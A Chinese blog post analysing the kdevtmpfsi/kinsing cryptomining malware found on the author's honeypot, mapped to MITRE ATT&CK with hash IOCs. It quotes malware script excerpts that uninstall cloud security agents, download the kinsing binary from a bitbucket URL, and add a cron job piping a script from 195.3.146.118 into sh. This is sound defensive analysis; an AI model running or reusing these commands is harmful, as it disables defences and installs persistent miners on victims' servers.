



<!DOCTYPE html><html lang="en"><head><meta http-equiv="content-type" content="text/html; charset=utf-8"><meta content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0" name="viewport"><meta content="yes" name="apple-mobile-web-app-capable"><meta content="black-translucent" name="apple-mobile-web-app-status-bar-style"><meta content="telephone=no" name="format-detection"><meta name="description" content=""><title>恶意挖矿程序场景下ATT-CK实践 | Kevinsa</title><link rel="stylesheet" type="text/css" href="/css/style.css?v=0.0.0"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/normalize.css/normalize.min.css"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/purecss/build/pure-min.min.css"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/purecss/build/grids-responsive-min.css"><link rel="stylesheet" href="//cdn.jsdelivr.net/npm/font-awesome@4.7.0/css/font-awesome.min.css"><script type="text/javascript" src="//cdn.jsdelivr.net/npm/jquery/dist/jquery.min.js"></script><link rel="icon" mask="" sizes="any" href="/favicon.ico"><link rel="Shortcut Icon" type="image/x-icon" href="/favicon.ico"><link rel="apple-touch-icon" href="/apple-touch-icon.png"><link rel="apple-touch-icon-precomposed" href="/apple-touch-icon.png"><script type="text/javascript" src="//cdn.jsdelivr.net/npm/clipboard/dist/clipboard.min.js"></script><script type="text/javascript" src="//cdn.jsdelivr.net/gh/codeseven/toastr/build/toastr.min.js"></script><link rel="stylesheet" href="//cdn.jsdelivr.net/gh/codeseven/toastr/build/toastr.min.css"><meta name="generator" content="Hexo 5.2.0"></head><body><div class="body_container"><div id="header"><div class="site-name"><h1 class="hidden">恶意挖矿程序场景下ATT-CK实践</h1><a id="logo" href="/.">Kevinsa</a><p class="description">When you bring me out, can you introduce me as Joker?</p></div><div id="nav-menu"><a class="current" href="/."><i class="fa fa-home"> Home</i></a><a href="/archives/"><i class="fa fa-archive"> Archive</i></a><a href="/about/"><i class="fa fa-user"> About</i></a></div></div><div class="pure-g" id="layout"><div class="pure-u-1 pure-u-md-3-4"><div class="content_container"><div class="post"><h1 class="post-title">恶意挖矿程序场景下ATT-CK实践</h1><div class="post-meta">2020-04-19<span> | </span><span class="category"><a href="/categories/%E8%9C%9C%E7%BD%90/">蜜罐</a></span></div><div class="post-content"><p>MITRE ATT&amp;CK主要是基于真实的入侵行为、APT攻击事件梳理形成的知识框图，对于甲方企业安全，可以利用其梳理自身的业务场景、设计威胁模型并与其ATT&amp;CT中的攻击手法做对应，以其发现自身缺陷点，反推检测、防御能力，提高整体的企业安全水位。而本文是基于自己在外网搭建的蜜罐系统真实发生的入侵事件，利用ATT&amp;CT站在攻击者的视角更有针对性的梳理攻击者的思路、攻击手法。</p>
<!-- TOC -->

<ul>
<li><p><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E7%AE%80%E8%BF%B0">恶意挖矿程序简述</a></p>
<ul>
<li>  <a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%9F%BA%E6%9C%AC%E7%89%B9%E5%BE%81">恶意挖矿程序基本特征</a></li>
<li>  <a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%88%9D%E5%A7%8B%E6%94%BB%E5%87%BB%E5%85%A5%E5%8F%A3">恶意挖矿程序初始攻击入口</a></li>
<li>  <a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%88%9D%E5%A7%8B%E5%8C%96%E6%89%A7%E8%A1%8C">恶意挖矿程序初始化、执行</a></li>
<li>  <a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%AE%9E%E7%8E%B0">恶意挖矿程序实现</a></li>
</ul>
</li>
<li><p><a href="#mitre-attck-matrix">Mitre Att&amp;ck Matrix</a></p>
<ul>
<li>  <a href="#%E6%A0%B7%E6%9C%AC%E4%BF%A1%E6%81%AF%E5%AF%B9%E5%BA%94mitre-attck-matrix">样本信息对应Mitre Att&amp;ck Matrix</a></li>
<li>  <a href="#%E6%A8%A1%E6%8B%9F%E6%94%BB%E5%87%BB%E8%80%85%E8%A7%86%E8%A7%92">模拟攻击者视角</a></li>
</ul>
</li>
<li><p>  <a href="#%E4%B8%AA%E4%BA%BA%E6%80%9D%E8%80%83">个人思考</a></p>
</li>
<li><p>  <a href="#%E9%99%84%E5%BD%95%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8Fioc">附录:恶意挖矿程序IOC</a></p>
<!-- /TOC -->

</li>
</ul>
<h2 id="恶意挖矿程序简述"><a href="#恶意挖矿程序简述" class="headerlink" title="恶意挖矿程序简述"></a><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E7%AE%80%E8%BF%B0" title="恶意挖矿程序简述"></a>恶意挖矿程序简述</h2><h3 id="恶意挖矿程序基本特征"><a href="#恶意挖矿程序基本特征" class="headerlink" title="恶意挖矿程序基本特征"></a><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%9F%BA%E6%9C%AC%E7%89%B9%E5%BE%81" title="恶意挖矿程序基本特征"></a>恶意挖矿程序基本特征</h3><ul>
<li>  kdevtmpfsi</li>
<li>  漏洞利用:ThinkPHP RCE、redis RCE<br>/proc/[pid]信息<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">- pid: 21940</span><br><span class="line">- command: &#x2F;tmp&#x2F;kdevtmpfsi</span><br><span class="line">- &#x2F;cmdline: &#x2F;tmp&#x2F;kdevtmpfsi</span><br><span class="line">- &#x2F;comm: kdevtmpfsi</span><br><span class="line">- &#x2F;environ: D&#x3D;FALSESKL&#x3D;tUSER&#x3D;apache_&#x3D;&#x2F;tmp&#x2F;kdevtmpfsiPWD&#x3D;&#x2F;usr&#x2F;share&#x2F;nginx&#x2F;html&#x2F;thinkphp&#x2F;publicSHLVL&#x3D;3HOME&#x3D;&#x2F;var&#x2F;www</span><br><span class="line">- &#x2F;cwd: lrwxrwxrwx 1 48 48 0 Mar 24 14:25 &#x2F;proc&#x2F;21940&#x2F;cwd -&gt; &#x2F;</span><br><span class="line">- &#x2F;exe: lrwxrwxrwx 1 48 48 0 Mar 24 14:25 &#x2F;proc&#x2F;21940&#x2F;exe -&gt; &#x2F;</span><br></pre></td></tr></table></figure>
tmp/kdevtmpfsi<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">File: &#96;kdevtmpfsi&#39;</span><br><span class="line">  Size: 3922304   	Blocks: 7664       IO Block: 4096   regular file</span><br><span class="line">Device: 33h&#x2F;51d	Inode: 1024056     Links: 1</span><br><span class="line">Access: (0755&#x2F;-rwxr-xr-x)  Uid: (   48&#x2F;  apache)   Gid: (   48&#x2F;  apache)</span><br><span class="line">Access: 2020-03-24 14:21:46.219912578 +0000</span><br><span class="line">Modify: 2020-03-24 14:21:46.207912765 +0000</span><br><span class="line">Change: 2020-03-24 14:21:46.219912578 +0000</span><br></pre></td></tr></table></figure>

</li>
</ul>
<h3 id="恶意挖矿程序初始攻击入口"><a href="#恶意挖矿程序初始攻击入口" class="headerlink" title="恶意挖矿程序初始攻击入口"></a><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%88%9D%E5%A7%8B%E6%94%BB%E5%87%BB%E5%85%A5%E5%8F%A3" title="恶意挖矿程序初始攻击入口"></a>恶意挖矿程序初始攻击入口</h3><p>作者在蜜罐系统发现存在kdevtmpfsi该恶意挖矿程序的环境为thinkphp、redis</p>
<ul>
<li>  thinkphp RCE(远程命令执行)<br></li>
<li>  redis RCE(远程命令执行)，6379端口未授权写入payload实现getshell<br></li>
</ul>
<h3 id="恶意挖矿程序初始化、执行"><a href="#恶意挖矿程序初始化、执行" class="headerlink" title="恶意挖矿程序初始化、执行"></a><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%88%9D%E5%A7%8B%E5%8C%96%E3%80%81%E6%89%A7%E8%A1%8C" title="恶意挖矿程序初始化、执行"></a>恶意挖矿程序初始化、执行</h3><ul>
<li>  对抗：识别VPS/EC2平台，并卸载对应的安全组件<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line">if ps aux | grep -i &#39;[a]liyun&#39;; then</span><br><span class="line">  curl http:&#x2F;&#x2F;update.aegis.aliyun.com&#x2F;download&#x2F;uninstall.sh | bash</span><br><span class="line">  curl http:&#x2F;&#x2F;update.aegis.aliyun.com&#x2F;download&#x2F;quartz_uninstall.sh | bash</span><br><span class="line">  pkill aliyun-service</span><br><span class="line">  rm -rf &#x2F;etc&#x2F;init.d&#x2F;agentwatch &#x2F;usr&#x2F;sbin&#x2F;aliyun-service</span><br><span class="line">  rm -rf &#x2F;usr&#x2F;local&#x2F;aegis*</span><br><span class="line">  systemctl stop aliyun.service</span><br><span class="line">  systemctl disable aliyun.service</span><br><span class="line">  service bcm-agent stop</span><br><span class="line">  yum remove bcm-agent -y</span><br><span class="line">  apt-get remove bcm-agent -y</span><br><span class="line">elif ps aux | grep -i &#39;[y]unjing&#39;; then</span><br><span class="line">  &#x2F;usr&#x2F;local&#x2F;qcloud&#x2F;stargate&#x2F;admin&#x2F;uninstall.sh</span><br><span class="line">  &#x2F;usr&#x2F;local&#x2F;qcloud&#x2F;YunJing&#x2F;uninst.sh</span><br><span class="line">  &#x2F;usr&#x2F;local&#x2F;qcloud&#x2F;monitor&#x2F;barad&#x2F;admin&#x2F;uninstall.sh</span><br></pre></td></tr></table></figure></li>
<li>  植入<br>下载对应的守护进程<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line">download2() &#123;</span><br><span class="line">  $WGET $DIR&#x2F;kinsing https:&#x2F;&#x2F;bitbucket.org&#x2F;kimrakfl33&#x2F;git&#x2F;raw&#x2F;master&#x2F;kinsing</span><br><span class="line">  chmod +x $DIR&#x2F;kinsing</span><br><span class="line">  if [ -x &quot;$(command -v md5sum)&quot; ]; then</span><br><span class="line">    sum&#x3D;$(md5sum $DIR&#x2F;kinsing | awk &#39;&#123; print $1 &#125;&#39;)</span><br><span class="line">    echo $sum</span><br><span class="line">    case $sum in</span><br><span class="line">    a71ad3167f9402d8c5388910862b16ae)</span><br><span class="line">      echo &quot;kinsing OK&quot;</span><br><span class="line">      ;;</span><br><span class="line">    *)</span><br><span class="line">      echo &quot;kinsing wrong&quot;</span><br><span class="line">      download3</span><br><span class="line">      ;;</span><br><span class="line">    esac</span><br><span class="line">  else</span><br><span class="line">    echo &quot;No md5sum&quot;</span><br><span class="line">    download3</span><br><span class="line">  fi</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></li>
<li>  持久化<br>crontab任务<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">crontab -l | grep -e &quot;195.3.146.118&quot; | grep -v grep</span><br><span class="line">if [ $? -eq 0 ]; then</span><br><span class="line">  echo &quot;cron good&quot;</span><br><span class="line">else</span><br><span class="line">  (</span><br><span class="line">    crontab -l 2&gt;&#x2F;dev&#x2F;null</span><br><span class="line">    echo &quot;* * * * * $LDR http:&#x2F;&#x2F;195.3.146.118&#x2F;t.sh | sh &gt; &#x2F;dev&#x2F;null 2&gt;&amp;1&quot;</span><br><span class="line">  ) | crontab -</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>

</li>
</ul>
<h3 id="恶意挖矿程序实现"><a href="#恶意挖矿程序实现" class="headerlink" title="恶意挖矿程序实现"></a><a href="#%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%AE%9E%E7%8E%B0" title="恶意挖矿程序实现"></a>恶意挖矿程序实现</h3><p>对恶意挖矿程序kdevtmpfsi样本逆向</p>
<ul>
<li>  compile: ubuntu[executable AMD64]</li>
<li>  内嵌的挖矿功能是基于开源的<a target="_blank" rel="noopener" href="https://github.com/xmrig/xmrig">XMRig</a>实现，币种：XMR，矿池：xmr-eu1.nanopool.org<br></li>
</ul>
<h2 id="Mitre-Att-amp-ck-Matrix"><a href="#Mitre-Att-amp-ck-Matrix" class="headerlink" title="Mitre Att&amp;ck Matrix"></a><a href="#Mitre-Att-amp-ck-Matrix" title="Mitre Att&amp;ck Matrix"></a>Mitre Att&amp;ck Matrix</h2><h3 id="样本信息对应Mitre-Att-amp-ck-Matrix"><a href="#样本信息对应Mitre-Att-amp-ck-Matrix" class="headerlink" title="样本信息对应Mitre Att&amp;ck Matrix"></a><a href="#%E6%A0%B7%E6%9C%AC%E4%BF%A1%E6%81%AF%E5%AF%B9%E5%BA%94Mitre-Att-amp-ck-Matrix" title="样本信息对应Mitre Att&amp;ck Matrix"></a>样本信息对应Mitre Att&amp;ck Matrix</h3><html>
    <body>
        <table border="1">
            <tr>
               <td>Initial Access</td>
               <td>Execution</td>
               <td>Persistence</td>
               <td>Privilege Escalation</td>
               <td>Defense Evasion</td>
               <td>Credential Access</td>
               <td>Discovery</td>
               <td>Lateral Movement</td>
               <td>Collection</td>
               <td>Exfiltration</td>
               <td>Command and Control</td>
               <td>Network Effects</td>
               <td>Remote Service Effects</td>
               <td>Impact</td>
            </tr>
            <tr>
               <td>[External Remote Services](https://attack.mitre.org/techniques/T1133)</td>
               <td>[Scripting](https://attack.mitre.org/techniques/T1064)</td>
               <td>[Hidden Files and Directories](https://attack.mitre.org/techniques/T1158)</td>
               <td></td>
               <td>[Scripting](https://attack.mitre.org/techniques/T1064)</td>
               <td>[Network Sniffing](https://attack.mitre.org/techniques/T1040/)</td>
               <td>[System Information Discovery](https://attack.mitre.org/techniques/T1082)</td>
               <td>[Remote File Copy](https://attack.mitre.org/techniques/T1105)</td>
               <td></td>
               <td></td>
               <td>[Standard Non-Application Layer Protocol](https://attack.mitre.org/techniques/T1095)</td>
               <td></td>
               <td></td>
               <td>[Service Stop](https://attack.mitre.org/techniques/T1489)</td>
            </tr>
         </table>
    </body>
</html>

<h3 id="模拟攻击者视角"><a href="#模拟攻击者视角" class="headerlink" title="模拟攻击者视角"></a><a href="#%E6%A8%A1%E6%8B%9F%E6%94%BB%E5%87%BB%E8%80%85%E8%A7%86%E8%A7%92" title="模拟攻击者视角"></a>模拟攻击者视角</h3><p>确定目标 -&gt; 准备TTPs -&gt; 实施攻击 -&gt; 执行、对抗 -&gt; 完成</p>
<ul>
<li><p>  初始访问(Initial Access): 确认目标系统、service等是否是已有对应TTPs；</p>
</li>
<li><p>  执行(Execution): 运行恶意shell脚本；</p>
</li>
<li><p>持久化(Persistence):</p>
<ul>
<li>  卸载云平台安全组件；</li>
<li>  执行守护进程；</li>
<li>  crontab任务；</li>
</ul>
</li>
<li><p>  防御绕过(Defensive Evasion): shell脚本执行；</p>
</li>
<li><p>  危害(Impact): CPU资源消耗、攻击者矿池收益增加；</p>
</li>
</ul>
<h2 id="个人思考"><a href="#个人思考" class="headerlink" title="个人思考"></a><a href="#%E4%B8%AA%E4%BA%BA%E6%80%9D%E8%80%83" title="个人思考"></a>个人思考</h2><ul>
<li><p>ATT&amp;CK 适用场景</p>
<ul>
<li>  威胁情报: 识别具体的APT组织(乙方安全侧重点)</li>
<li>  红蓝对抗: 模拟具体的TTPs，检测现有体系是否可以发现、阻断</li>
<li>  风险识别: 长链路的安全评估、风险识别中发现纵深防御的薄弱点</li>
<li>  UEBA: Tactics\Technique 已标签、模版化，检测并区分恶意、正常用户，实现攻击链路的阻断</li>
</ul>
</li>
<li><p>问题</p>
<ul>
<li>  子攻击技术的粒度不够细腻: ATT&amp;CK提供的是一套系统的理论体系，但是没有解决子攻击的具体检测问题，相对笼统</li>
<li>  适用于极小范围、难以发现的APT攻击、检测场景，而对于大范围的常规漏洞(代码基础漏洞、业务逻辑漏洞)缺少落地点</li>
</ul>
</li>
</ul>
<h2 id="附录-恶意挖矿程序IOC"><a href="#附录-恶意挖矿程序IOC" class="headerlink" title="附录:恶意挖矿程序IOC"></a><a href="#%E9%99%84%E5%BD%95-%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8FIOC" title="附录:恶意挖矿程序IOC"></a>附录:恶意挖矿程序IOC</h2><ul>
<li>  Filename: kdevtmpfsi</li>
<li>  Size: 3.7M</li>
<li>  Type: elf\64bits\executable</li>
<li>  MD5: 1692020039cb723c351aa1a6a9b03fdc</li>
<li>  SHA1: 9c002fa3d2b056708554a340b811a478bdb7db3b</li>
<li>  SHA256: 24fdf5b1e1e8086031931f2678d874487316dc1e266581b328d6e34a1fd7748c</li>
</ul>
</div><div class="tags"><a href="/tags/%E8%9C%9C%E7%BD%90/"><i class="fa fa-tag"></i>蜜罐</a><a href="/tags/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F/"><i class="fa fa-tag"></i>恶意挖矿程序</a></div><div class="post-nav"><a class="pre" href="/2020/05/14/shiro%E6%A1%86%E6%9E%B6Filter%E5%8F%8A%E5%85%B6CVE-2020-1957/">shiro框架Filter及其CVE-2020-1957</a><a class="next" href="/2019/09/15/%E5%9F%BA%E4%BA%8EThinkphp5-X-RCE%E6%BC%8F%E6%B4%9E%E7%9A%84%E6%8C%96%E7%9F%BF%E6%9C%A8%E9%A9%AC%E5%88%86%E6%9E%90/">基于Thinkphp5.X-RCE漏洞的挖矿木马分析</a></div></div></div></div><div class="pure-u-1-4 hidden_mid_and_down"><div id="sidebar"><div class="widget"><form class="search-form" action="//www.google.com/search" method="get" accept-charset="utf-8" target="_blank"><input type="text" name="q" maxlength="20" placeholder="Search"/><input type="hidden" name="sitesearch" value="http://example.com"/></form></div><div class="widget"><div class="widget-title"><i class="fa fa-folder-o"> Categories</i></div><ul class="category-list"><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/">CTF</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Golang/">Golang</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E4%BE%9B%E5%BA%94%E9%93%BE%E5%AE%89%E5%85%A8/">供应链安全</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/">漏洞分析</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/%E8%9C%9C%E7%BD%90/">蜜罐</a></li></ul></div><div class="widget"><div class="widget-title"><i class="fa fa-star-o"> Tags</i></div><div class="tagcloud"><a href="/tags/%E8%9C%9C%E7%BD%90/" style="font-size: 15px;">蜜罐</a> <a href="/tags/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F/" style="font-size: 15px;">恶意挖矿程序</a> <a href="/tags/CTF/" style="font-size: 15px;">CTF</a> <a href="/tags/Golang/" style="font-size: 15px;">Golang</a> <a href="/tags/SpEL/" style="font-size: 15px;">SpEL</a> <a href="/tags/%E7%B3%BB%E7%BB%9F%E6%9E%B6%E6%9E%84/" style="font-size: 15px;">系统架构</a> <a href="/tags/%E4%BE%9B%E5%BA%94%E9%93%BE%E5%AE%89%E5%85%A8/" style="font-size: 15px;">供应链安全</a> <a href="/tags/Python/" style="font-size: 15px;">Python</a> <a href="/tags/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/" style="font-size: 15px;">漏洞利用</a> <a href="/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/" style="font-size: 15px;">漏洞分析</a> <a href="/tags/SaltStack/" style="font-size: 15px;">SaltStack</a> <a href="/tags/CVE/" style="font-size: 15px;">CVE</a> <a href="/tags/shiro/" style="font-size: 15px;">shiro</a> <a href="/tags/gorm/" style="font-size: 15px;">gorm</a> <a href="/tags/XXE/" style="font-size: 15px;">XXE</a> <a href="/tags/Nexus/" style="font-size: 15px;">Nexus</a></div></div><div class="widget"><div class="widget-title"><i class="fa fa-file-o"> Recent</i></div><ul class="post-list"><li class="post-list-item"><a class="post-list-link" href="/2020/12/22/Nexus-Repository-Manager3-XXE/">Nexus Repository Manager3 XXE</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/09/12/DDCTF-2020WEB%E5%87%BA%E9%A2%98%E8%AE%B0%E5%BD%95/">DDCTF-2020WEB出题记录</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/08/10/gorm%E4%BD%BF%E7%94%A8%E9%A3%8E%E9%99%A9%E7%82%B9/">gorm使用风险点</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/07/24/%E7%94%9F%E4%BA%A7%E8%8A%82%E7%82%B9%E4%BE%9B%E5%BA%94%E9%93%BE%E5%AE%89%E5%85%A8%E6%80%9D%E8%80%83/">生产节点供应链安全思考</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/06/18/%E8%87%AA%E5%AE%9E%E7%8E%B0%E8%9C%9C%E7%BD%90%E7%B3%BB%E7%BB%9F/">自实现蜜罐系统</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/05/19/SaltStack-CVE-2020-11651-11652%E5%88%86%E6%9E%90/">SaltStack_CVE-2020-11651/11652分析</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/05/14/shiro%E6%A1%86%E6%9E%B6Filter%E5%8F%8A%E5%85%B6CVE-2020-1957/">shiro框架Filter及其CVE-2020-1957</a></li><li class="post-list-item"><a class="post-list-link" href="/2020/04/19/%E6%81%B6%E6%84%8F%E6%8C%96%E7%9F%BF%E7%A8%8B%E5%BA%8F%E5%9C%BA%E6%99%AF%E4%B8%8BATT-CK%E5%AE%9E%E8%B7%B5/">恶意挖矿程序场景下ATT-CK实践</a></li><li class="post-list-item"><a class="post-list-link" href="/2019/09/15/%E5%9F%BA%E4%BA%8EThinkphp5-X-RCE%E6%BC%8F%E6%B4%9E%E7%9A%84%E6%8C%96%E7%9F%BF%E6%9C%A8%E9%A9%AC%E5%88%86%E6%9E%90/">基于Thinkphp5.X-RCE漏洞的挖矿木马分析</a></li></ul></div><div class="widget"><div class="widget-title"><i class="fa fa-external-link"> Links</i></div></div></div></div><div class="pure-u-1 pure-u-md-3-4"><div id="footer">Copyright © 2020 <a href="/." rel="nofollow">Kevinsa.</a> Powered by<a rel="nofollow" target="_blank" href="https://hexo.io"> Hexo.</a><a rel="nofollow" target="_blank" href="https://github.com/tufu9441/maupassant-hexo"> Theme</a> by<a rel="nofollow" target="_blank" href="https://github.com/pagecho"> Cho.</a></div></div></div><a class="show" id="rocket" href="#top"></a><script type="text/javascript" src="/js/totop.js?v=0.0.0" async></script><script type="text/javascript" src="//cdn.jsdelivr.net/gh/fancyapps/fancybox/dist/jquery.fancybox.min.js" async></script><script type="text/javascript" src="/js/fancybox.js?v=0.0.0" async></script><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/gh/fancyapps/fancybox/dist/jquery.fancybox.min.css"><script type="text/javascript" src="/js/copycode.js" successtext="Copy Successed!"></script><link rel="stylesheet" type="text/css" href="/css/copycode.css"><script type="text/javascript" src="/js/codeblock-resizer.js?v=0.0.0"></script><script type="text/javascript" src="/js/smartresize.js?v=0.0.0"></script></div></body></html>